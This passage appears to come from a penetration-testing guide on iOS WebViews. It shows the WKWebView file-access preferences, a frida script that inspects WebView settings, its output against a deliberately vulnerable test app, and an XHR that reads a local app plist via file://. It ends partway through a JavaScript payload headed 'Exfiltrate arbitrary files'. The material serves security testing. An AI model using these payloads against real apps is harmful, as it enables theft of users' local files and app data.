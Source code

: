 ```javascript
xhr.open('GET', 'file:///var/mobile/Containers/Data/Application/ED4E0AD8-F7F7-4078-93CC-C350465048A5/Library/Preferences/com.authenticationfailure.WheresMyBrowser.plist', true);
xhr.send(null);
```
{% endtab %}
{% endtabs %}

* **WKWebView**:
  * **`allowFileAccessFromFileURLs`** (`WKPreferences`, `false` by default): it enables JavaScript running in the context of a `file://` scheme URL to access content from other `file://` scheme URLs.
  * **`allowUniversalAccessFromFileURLs`** (`WKWebViewConfiguration`, `false` by default): it enables JavaScript running in the context of a `file://` scheme URL to access content from any origin.

You can search for those functions in the source code of the application or in the compiled binary.\
Also, you can use the following frida script to find this information:

```bash
ObjC.choose(ObjC.classes['WKWebView'], {
  onMatch: function (wk) {
    console.log('onMatch: ', wk);
    console.log('URL: ', wk.URL().toString());
    console.log('javaScriptEnabled: ', wk.configuration().preferences().javaScriptEnabled());
    console.log('allowFileAccessFromFileURLs: ',
            wk.configuration().preferences().valueForKey_('allowFileAccessFromFileURLs').toString());
    console.log('hasOnlySecureContent: ', wk.hasOnlySecureContent().toString());
    console.log('allowUniversalAccessFromFileURLs: ',
            wk.configuration().valueForKey_('allowUniversalAccessFromFileURLs').toString());
  },
  onComplete: function () {
    console.log('done for WKWebView!');
  }
});
```

```bash
frida -U -f com.authenticationfailure.WheresMyBrowser -l webviews_inspector.js

onMatch:  <WKWebView: 0x1508b1200; frame = (0 0; 320 393); layer = <CALayer: 0x1c4238f20>>
URL:  file:///var/mobile/Containers/Data/Application/A654D169-1DB7-429C-9DB9-A871389A8BAA/
        Library/WKWebView/scenario1.html
javaScriptEnabled:  true
allowFileAccessFromFileURLs:  0
hasOnlySecureContent:  false
allowUniversalAccessFromFileURLs:  0
```

#### Exfiltrate arbitrary files

```javascript
//For some reason this payload doesn't work!!
//Let me know if you know how to exfiltrate local files from a WKWebView
String.prototype.hexEncode = function(){
    var hex, i;
    var result = "";
    for (i=0; i<this.length; i++) {
        hex = this.charCodeAt(i).toString(16);
        result += ("000"+hex).slice(-4);
    }
    return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
```